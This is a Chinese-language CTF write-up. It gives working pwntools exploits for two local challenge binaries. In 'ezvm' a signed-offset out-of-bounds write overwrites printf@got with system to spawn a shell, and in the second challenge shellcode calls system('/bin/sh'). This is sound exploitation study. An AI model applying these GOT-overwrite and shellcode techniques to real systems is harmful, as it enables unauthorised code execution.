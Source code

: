 ```yaml
---
typora-copy-images-to: ./image
---
```


# 

by Maple

## ezvm 简单虚拟机

慢慢来看的话其实很简单，先贴exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

#offset = -0xf980
#7：末字符++
#8：末字符--
#5：负溢出
# printf = 0x606f0
# system = 0x50d70
def sub():
    return p8(0x4)

def push(x):
    return p8(0x1)+p8(x)

def store(x):
    return p8(0x5)+p8(x,signed = True)

def load(x):
    return p8(0x6)+p8(x,signed = True)

def add():
    return p8(0x3)

payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)

p.sendlineafter("length:",str(len(payload)))
p.sendline(payload)
p.interactive()
```

### 源码分析

1先看看ida的逆向，这个直接问ai其实就行

- a1代表的栈：
  - a1+0~127:全局变量数据存储(LOAD/STORE)
  - a1+129~255:操作存储
  - a1+256:栈深度

- 输入`0x1`和`x`:将x压入栈中

- 输入`0x2`：将栈顶的数据弹出
- `0x3`:栈中弹出两个数据，然后将相加得到的数值压入栈顶
- `0x4`:栈中弹出两个数据，然后将相减得到的数值压入栈顶
- `0x5`:输入一个地址，将栈顶的元素弹给指定地址
- `0x6`:输入一个地址，将指定地址的元素压到栈顶
- ......

开始找问题

这里可以注意到v3是`int`型，但是这里偏移的提取是`char`类型，可以写入负数实现越界读写

最大范围是`0x80`，这个在压栈函数里可以看到，所以可以越界写`0x80`长度的地址

![image-20250403164905608](./image/image-20250403164905608.png)

那么看一下往上0x80是什么

| ![image-20250403165205458](./image/image-20250403165205458.png) |
| ------------------------------------------------------------ |
| 我们写入的字符串的地址是0xA0,`0xA0-0x80=0x20`，恰好可以写到`printf@got`,这个时候就很好想了，改got表，执行`system(/sh)` |

### exp分析：

```python
printf = 0x606f0
system = 0x50d70
```

这里直接打印出来libc中两者的位置，后面更改做参考

````python
payload = push(0xf0-0x70)+load(0x20-0xA0)+sub()
````

1. 将`0xf0-0x70`（最后字节）压入栈顶
2. 加载到`-0x80`偏移处(printf地址)加载出当前的最低字节压栈
3. 执行减法并压栈，即`实际地址-offset`

```python
payload+= push(0xd-0x6)+load(0x20-0xA0+0x1)+add()
payload+= push(1)+load(0x20-0xA0+2)+sub()
```

这两步同理，改了低二字节和低三字节

```python
payload+=store(0x20-0xA0+2)+store(0x20-0xA0+1)+store(0x20-0xA0)
```

此时虚拟栈的结构里：低三字节，低二字节，最低字节

所以要倒序写入，这样就完成了改写printf的got表地址

```python
payload+=push(ord("s"))+store(0)+push(ord("h"))+store(1)
```

原本的操作是输出栈中的内容，那么我们把`/sh`写入栈中，就可以执行`system(/sh)`

**OVER**

## shell_for_another_shell

不是特别会，等会了再回来补一下

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

shellcode = """
    xor eax, eax
    add r13, fs:0x0
    lea r15, [rip]
    sub r15, 0x15
    add r13, 0x28c0
    mov r14, r13
    add r14, 0x222200
    lea r14, [r14]
    mov rbp, r14
    mov rsp, r14
    add r13, 0x40d70
    add r13, 0x10000
    xor rax, rax
    mov rdi, r15
    add rdi, 0x200
    xor r15, r15
    call r13
"""
shellcode = asm(shellcode)
payload = shellcode.ljust(0x200-3,b'/')+b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
```

